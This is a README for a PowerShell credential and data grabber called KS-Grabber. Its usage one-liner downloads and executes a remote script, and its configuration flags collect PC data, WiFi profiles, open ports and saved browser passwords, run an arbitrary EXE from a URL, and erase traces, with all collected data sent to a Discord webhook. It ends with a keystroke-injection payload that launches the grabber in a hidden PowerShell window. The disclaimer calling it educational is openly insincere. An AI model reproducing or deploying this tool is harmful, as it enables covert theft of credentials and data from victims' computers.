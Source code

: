 # ✨ KS-Grabber

KS-Grabber is a keystroke injection grabber that is fully modular and developed with PowerShell. This script allows you to collect information from various sources and send it to a webhook.

## Usage

Run the following command in PowerShell to execute KS-Grabber:

```powershell
$hookUrl = '<webhook goes here>'
iex (iwr https://raw.githubusercontent.com/maskara10/ks-grabber-main/ks-grabber.ps1).content
```

## Configuration

Before running the script, you need to configure the boolean variables that enable the grabber modules. Open the script and set the following variables:

```powershell
$gatherPcData = $true  <# Gather PC data #>
$gatherWifiProfiles = $true  <# Gather WiFi profiles #>
$gatherOpenPorts = $true  <# Gather open ports #>
$executeExe = $false  <# Execute and EXE File #>
$gatherBrowserPass = $false <# [WIP] Gather passwords saved in browsers #>
$removeTraces = $true  <# Remove traces #>
```

You can also change some extra variables according to your preferences regarding the modules:

```powershell
$keyContentLabel = "Key Content"  <# Only if the system is not in en-us or en-br. #>
$exeUrl = "https://somerandomwebsite.lol/yourfile.exe" <# The EXE file referring to the executeExe function. #>
```

**WARNING:** It is mandatory to configure the webhook correctly. Replace the value of the `$hookUrl` variable with your webhook:

```powershell
$hookUrl = "https://discord.com/api/webhooks/wompwomp"
```

Otherwise, the script will not work!

## Example Attack

Here is an example attack using the grabber:

```plaintext
GUI r
DELAY 1000
STRING cmd
ENTER
DELAY 1000
STRING powershell -windowstyle hidden -command "$hookUrl = '<webhook goes here>'; iex (iwr https://raw.githubusercontent.com/Niximkk/ks-grabber/main/ks-grabber.ps1).content"
ENTER
```
### ⭐ Made for educational purposes (even though I don't know how it can be used in an educational way), I am not responsible for how this tool is used.
